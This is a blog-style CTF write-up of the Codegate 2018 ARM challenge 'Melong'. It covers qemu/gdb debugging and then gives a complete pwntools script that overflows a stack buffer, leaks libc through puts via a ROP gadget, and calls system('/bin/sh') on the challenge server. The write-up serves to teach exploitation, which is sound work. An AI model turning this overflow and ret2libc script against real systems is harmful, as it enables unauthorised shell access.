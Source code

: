 ```yaml
---
layout: post
date: "2018.02.04"
title: "Codegate 2018 Writeup"
---
```

Yesterday I played the Codegate CTF 2018 with Lotus-Eur3kA, a combination with Blue-Lotus and Eur3kA. Unluckily, there are several challenges we didn't solve in time and finally we got rank 21.

## Melong
The challenge is not difficult, but it is the first arm exploit I solved in a CTF game. So I will try to make this wp more detailed.The challenge can be download in [here](https://github.com/Changochen/CTF/tree/master/2018/Codegate/melong).

The exploit in arm is almost the same with that in X86. All we need to know is how arm makes function calls.  
To be short, arm use r0-r3 to store the first 4 argument, with r0 storing the first and r4 the fourth. And no jmp or call instruction in arm, but b or bl instead.

### Program info

Let's take a look in the program
```bash
[*] '/home/ne0/Desktop/codegate/melong/melong'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```
### Debug

To run the program, I use qemu-arm:
```bash
qemu-arm  -g 1234 -L /usr/arm-linux-gnueabi ./melong
```
- -L dir: dir is /path/to/lib_for_arm
- -g port: for remote debug

At another console, run the gdb for arm:
```bash
arm-none-eabi-gdb melong
```
In gdb, we run:
```bash
gdb-peda$ target remote localhost:1234
Remote debugging using localhost:1234
warning: A handler for the OS ABI "GNU/Linux" is not built into this configuration
of GDB.  Attempting to continue with the default armv5t settings.

Warning: not running or target is remote
Save/restore a working gdb session to file as a script
Usage:
    session save [filename]
    session restore [filename]

0xf67ceb00 in ?? ()
gdb-peda$ c
Continuing.
```

Then we see the program running:
```bash
➜  melong qemu-arm -g 1234 -L /usr/arm-linux-gnueabi ./melong 
Welcome to the BPSEC gym

1. Check your bmi
2. Exercise
3. Register personal training
4. Write daily record
5. Have some health menu
6. Out of the gym

Type the number:
```
### Exploit

The logic in the program is easy, so I leave it out. To trigger buffer overflow, all you need to to is:
1. check bmi once
2. Register training, enter -1
3. write dairy with unlimited length,thus overflow.

To find useful gadget, I use ROPgadget, and the only gadget I use is
```armasm
0x00011bbc : pop {r0, pc}
```

The flow is the same as X86:
- Leak the libc address
- Return to main or somewhere else to trigger buffer overflow again
- Get shell

To leak, we set r0=puts got, pc=puts plt.
After puts is called, the program will fetch the eip from stack, so we can fill it with the address we want to return.
Thus the finall exp is

```python
from pwn import *
remote_addr="ch41l3ng3s.codegate.kr"
remote_port=1199

libc=ELF('/usr/arm-linux-gnueabi/lib/libc.so.6')
p=remote(remote_addr,remote_port)

def go(payload):
    choice(1)
    sla('Your height(meters) : ','1')
    sla('Your weight(kilograms) : ','1')
    choice(3)
    sla('take personal training?\n','-1')
    choice(4)
    sl(payload)
    choice(6)
    rl()
 
def hack():
    pop_r0=0x00011bbc
    main=0x110CC
    puts_plt=0x0104A8
    puts_got=0x2301c
    payload='A'*84+p32(pop_r0)+p32(puts_got)+p32(puts_plt)
    payload+=p32(main)*8
    go(payload)
    libc.address=u32(p.recv(4))-libc.symbols['puts']
    lg("LIBc",libc.address)
    payload='A'*84+p32(pop_r0)+p32(libc.search('/bin/sh').next())+p32(libc.symbols['system'])
    go(payload)
    p.interactive()

hack()
```

By the way, the libc is not provided in the attachment. But the libc in the server happens to match my qemu libc. So I solved it without having to find the correct libc

## Zoo
To be continued....
